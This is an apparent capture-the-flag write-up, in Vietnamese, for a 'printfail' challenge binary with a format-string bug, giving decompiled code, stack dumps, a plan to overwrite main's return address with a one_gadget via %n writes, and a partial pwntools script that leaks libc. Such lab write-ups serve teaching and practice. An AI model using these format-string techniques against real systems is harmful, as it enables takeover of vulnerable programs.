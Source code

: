# printfail

## IDA

```c
int __fastcall run_round(_DWORD *a1)
{
  memset(buf, 0, sizeof(buf));
  fflush(stdout);
  if ( !fgets(buf, 512, stdin) )
    return 0;
  *a1 = strlen(buf) <= 1;
  return printf(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("I'll let you make one printf call. You control the format string. No do-overs.");
  v4 = 1;
  while ( v4 )
  {
    if ( !(unsigned int)run_round(&v4) )
      return 0;
    if ( v4 )
      puts("...That was an empty string. Come on, you've at least gotta try!\nOkay, I'll give you another chance.");
  }
  return 0;
}
```

## Định hướng

Em được hint là ow giá trị v4 của while để ta có thể đưa nhiều payload của mình vào.
Đầu tiên em thấy khi nhập giá trị ở hàm fgets và kiểm tra stack, em thấy dữ liệu nhập vào không lưu trong stack:

```c
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555259 → run_round()
[#1] 0x5555555552d0 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail"         ← $rsp
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
0x007fffffffdc98│+0x0018: 0x005555555552d0  →  <main+60> test eax, eax
0x007fffffffdca0│+0x0020: 0x0000000100001000
0x007fffffffdca8│+0x0028: 0x6890f61163057300
0x007fffffffdcb0│+0x0030: 0x0000000000000001
0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
0x007fffffffdcc0│+0x0040: 0x0000000000000000
0x007fffffffdcc8│+0x0048: 0x00555555555294  →  <main+0> endbr64
```

Đến đây em khá bí và xin hint thì được hint là tìm cách thay đổi ret của hàm main là `c 0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax`
Em nghĩ là mình sẽ tìm địa chỉ stack nào đó có trỏ đến địa chỉ ret để thay đổi thành one_gadget.
Em tiếp tục tìm nhưng vẫn chưa thấy địa chỉ nào trỏ trực tiếp đến ret
Bí quá em xin hint và coi lại video 20 thì em thấy ở đây, có thể sử dụng để khai thác:

```c
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail" ,    ← $rsp  //here
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
```

thì các bước em khai thác như sau:

- dùng %n trỏ đến vị trí thứ 6, và ghi đè `0x007fffffffe064` thành `0x007fffffffdcb8` , khi đó tại `0x007fffffffddc8` ta có:

```c
0x007fffffffddc8 : 0x007fffffffdcb8  →  0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

- dùng %n trỏ đến vị trí thứ 43 đổi `0x007fffffffdcb8  →  0x007ffff7db5d90` thành one_gadget. okela

---

# Thực thi

#### Bước 1: ta sẽ tính toán để thay đổi v4, nên là em sẽ ghi 8 vào vị trí thứ 7 là đã thay đổi giá trị v4  
![image](https://user-images.githubusercontent.com/111769169/224769758-d9f5f842-851b-479b-83e9-839ed89051a3.png)

#### Bước 2: do file ko có hàm system nên ta sẽ phải leak libc.
Ta nên chọn vị trí 13 để leak vì nó là save rip của main và theo video 20 chú thích thì save rip nó tỉ lệ đúng hơn vì leak những thằng sau, khi chạy server nó là địa chỉ rác.

```python
    # %8c%7$n là để thoả điều kiện chạy loop để có thể input nhiều lần, nó đọc 8 kí tự từ %c và ghi vào
    r.sendlineafter(b"do-overs.\n", b"%8c%7$n %13$p")
    r.recvuntil(b"0x")
    leak = int(b"0x" + r.recvline(keepends=False), 16)
    libc.address = leak - 147587
    log.info("leak libc: " + hex(leak))
    log.info("leak base: " + hex(libc.address)) #leak libc tính địa chỉ base nè
```
